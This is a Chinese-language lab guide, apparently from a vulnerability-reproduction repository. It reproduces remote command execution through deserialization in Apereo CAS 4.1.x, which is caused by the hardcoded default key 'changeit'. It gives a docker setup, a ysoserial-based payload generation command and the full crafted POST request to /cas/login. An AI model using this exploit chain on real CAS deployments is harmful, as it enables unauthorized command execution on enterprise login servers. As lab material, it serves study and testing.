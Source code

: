 # Apereo CAS 4.1 反序列化命令执行漏洞

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

执行如下命令启动一个Apereo CAS 4.1.5：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

我们使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![](1.png)

然后我们登录CAS并抓包，将Body中的`execution`值替换成上面生成的Payload发送：

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

![](2.png)

登录Apereo CAS，可见`touch /tmp/success`已成功执行：

![](3.png)
